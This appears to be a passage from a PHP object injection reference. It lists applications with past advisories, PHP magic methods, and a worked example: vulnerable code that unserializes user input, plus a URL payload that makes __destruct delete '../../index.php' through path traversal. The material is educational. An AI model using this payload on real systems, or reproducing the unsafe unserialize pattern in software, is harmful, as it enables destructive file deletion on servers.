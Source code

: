 | vBulletin | 5.1.0   | https://blog.sucuri.net/2014/03/security-exploit-patched-on-vbulletin-php-object-injection.html |
| Tuelap    | 7.6-4   | http://karmainsecurity.com/KIS-2014-13                                                          |
| Moodle    | 2.5.0   | http://disse.cting.org/2013/09/16/2013-09-16-moodle-2-5-0-1-badges-external-object-injection    |
| WHMCS     | 5.2.12  | http://security-geeks.blogspot.com/2013/11/whmcs-5112-php-object-injectoin.html                 |

## PHP Magic Methods

| __construct()  | __set()    | __toString()  |
| __destruct()   | __isset()  | __invoke()    |
| __call()       | __unset()  | __set_state() |
| __callStatic() | __sleep()  | __clone()     |
| __get()        | __wakeup() | __debugInfo() |

## Examples of PHP Object Injection

### Exploit with the __destruct method

Vulnerable code:
```php
class Example1
{
   public $cache_file;

   function __construct()
   {
      // some PHP code...
   }

   function __destruct()
   {
      $file = "/var/www/cache/tmp/{$this->cache_file}";
      if (file_exists($file)) @unlink($file);
   }
}

// some PHP code...

$user_data = unserialize($_GET['data']);

// some PHP code..
```

Payload:
```http
http://testsite.com/vuln.php?data=O:8:"Example1":1:{s:10:"cache_file";s:15:"../../index.php";}
```

